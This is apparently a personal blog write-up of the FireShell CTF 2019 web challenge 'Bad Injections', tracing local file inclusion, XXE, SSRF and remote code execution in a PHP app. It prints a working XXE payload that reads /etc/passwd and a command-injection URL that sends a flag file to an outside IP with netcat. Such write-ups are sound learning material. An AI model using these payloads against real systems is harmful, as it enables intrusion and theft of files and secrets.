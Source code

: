 ```yaml
---
layout: post
title: FireShell CTF 2019 - Bad Injections
permalink: badInjections 
date: 2019-01-27
comments: 1
categories: CTF
tags: writeup
---
```

Today <strong id="peepee">FireShell CTF 2019</strong> wrapped up and ended. I had fun and i learned a lot. Coming into the ctf, i was expecting something a little more complicated than trivial, however it proved to be quite a challenge for my first ever serious ctf attempt. I decided to take on the most solved Web Application challenge called "<strong>Bad Injections</strong>". With the help of my amazing friends and fellow contenders i came close to solving it, but ran out of energy at 2AM, 2 hours away from the end of the ctf. 

The website greets us with 4 tabs and has a great deal of red herrings. The about page has SQL code hidden in its source file and the contact-us page has a non-functional feedback form. Really the only tab of interest is the List tab. It displays two images with one appearing to be broken. Upon closer inspection, it turns out that it's not an image, but a text file. 

It's particularly interesting how it is retrieved: {% highlight html %}<img src="download?file=files/test.txt&amp;hash=293d05cb2ced82858519bdec71a0354b" height="500">{% endhighlight %}

The website uses /download and passes it two parameters: <strong>file path and name + a hash</strong>. Quick look in a hash analyzer tells us it's most likely MD5, which can easily be broken. 

{% highlight language %}293d05cb2ced82858519bdec71a0354b{% endhighlight %}This hash when broken reveals the first parameter, {% highlight js %}files/test.txt{% endhighlight %} Lets explore how we can use this newfound knowledge and issue a manual GET request to {% highlight js %}download?file=files/test.txt&amp;hash=293d05cb2ced82858519bdec71a0354b{% endhighlight %}

We get an error in the response body: 

{% highlight language %}
<br />
<b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
{% endhighlight %}

<h2>Local File Inclusion</h2>

Conveniently this error gives us a path for Download.php. Knowing the file path, we can get the second parameter by hashing it and indeed, this works when we issue the request. We get the php source of Download.php. I researched directory structures of a couple php frameworks and this structure looked to me like CakePHP 2.x and to confirm it i tried getting .htaccess on the same level as the app folder. Indeed i got it. Knowing it is CakePHP, there's no need to bruteforce or do directory discovery (<strong>and both were banned by the ctf organizers anyways</strong>), as we can just try to get the routing rules of the server from Routes.php. This gives us the list of resources for the website: {% highlight js %}AboutUs.php, Admin.php, ContactUs.php, Custom.php, Download.php, Lista.php, Routes.php, Verify.php, index.php{% endhighlight %}

Here again we encouter a bunch of red herrings: Verify.php issues a Curl command and some of the people i collaborated with thought this was exploitable, but it wasn't. There's this SQL code {% highlight js %}SELECT * FROM users{% endhighlight %} in AboutUs.php, which is useless. ContactUS.php doesn't do anything, neither does Index.php or Lista.php. The only two files of interest here are Admin.php and Custom.php.

First lets look how Custom is invoked in Routes.php:
{% highlight php %}
Route::set('custom',function(){
  $handler = fopen('php://input','r');
  $data = stream_get_contents($handler);
  if(strlen($data) > 1){
    Custom::Test($data);
  }else{
    Custom::createView('Custom');
  }
});
{% endhighlight %}

It takes user input and calls the Test function. Now onto Custom.php:
{% highlight php %}
public static function Test($string){
    $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
    $test = $root->name;
    echo $test;
}
{% endhighlight %}

<h2>XML External Entity Injection</h2>

The Test function takes in the input and parses it as XML. Certainly issuing a GET request to /custom doesn't do anything and as was suggested to me by <strong>TheZakMan</strong> on the FireShell discord, i tried issuing a POST request to it and it worked. He sent it a piece of XML and discovered that it is vulnerable to <strong>Xml External Entity injection</strong>. I've never muddled in anything related to XML before, so it was a learning experience for me. I managed to inject the XMl code and read the first line of etc/passwd, but the rest was cut off by a million errors. Not before <strong>sixcross</strong> on discord showed me his XML code, i realized that i only got a messy response with mine because of some issue about single and double quotes.

This XML payload gave me a working injection:
{% highlight xml %}
<?xml version='1.0'?> 
<!DOCTYPE foo [<!ELEMENT name ANY >
<!ENTITY result SYSTEM 'file:///etc/passwd'>]>
<foo>
  <name>&result;</name>
</foo>
{% endhighlight %}

<h2>Server-Side Request Forgery</h2>

Now onto Routes.php to take a look at how the admin page is invoked:
{% highlight php %}
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
{% endhighlight %}

As you can see here, a condition prevents us from directly accessing the /admin page:
{% highlight php %}
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
    Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
{% endhighlight %}

Only if we come from IPV4 or IPV6 localhost can we call Admin::sort.

Now lets see what Admin.php does:
{% highlight php %}
$uri = parse_url($url);
    $file = file_get_contents($url);
    $dom = new DOMDocument();
    $dom->loadXML($file,LIBXML_NOENT | LIBXML_DTDLOAD);
    $xml = simplexml_import_dom($dom);
{% endhighlight %}

It accepts XML input. <strong>sixcross</strong> suggested we try injecting a command to get <strong>remote code execution</strong> through this part: 
{% highlight php %}usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));{% endhighlight %}

<h2>Remote Code Execution</h2>

He was absolutely right. I also noticed that the first parameter "rss" is accepted as an XML, however this was the furthest i got before my brain ceased to function at 2AM. 

The credit for the rest of it goes to the writeup by <strong>OmniscientSec</strong>. He discovered that not only does the first parameter accept XML, but that the second one accepts <strong>arbitrary code</strong>.

With the following payload he managed to exfil the flag with netcat:
{% highlight xml %}
http://127.0.0.1/admin?rss=http://45.76.39.243/a.xml&order=link.file_get_contents('
http://{your_ip}/'.exec('cat'.chr(32).
'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'45.76.39.243'.chr(32).'1234'))"
{% endhighlight %}

Funny enough, the flag fully describes my experience with this challenge:
{% highlight language %}
f#{1_d0nt_kn0w_wh4t_i4m_d01ng}
{% endhighlight %}

<h2>Conclusion</h2>

In conclusion, this challenge has proven to be a challenge and i learned a lot when trying to solve it. I ultimately failed, but i learned so much about PHP, XML and URL parameters that i feel like in my next CTF i will certainly be able to solve a challenge of this difficulty, given enough time.

<h3>Thanks go to:</h3>
<strong>kronie</strong> for helping me understand PHP,
<strong>TheZakMan</strong> for figuring out there is an XML injection,
<strong>sixcross</strong> for his XML payload and figuring out RCE,
OmniscientSec for solving the challenge, unlike the rest of us peasants
and most importantly to <strong>FireShell CTF</strong> for making an awesome challenge.
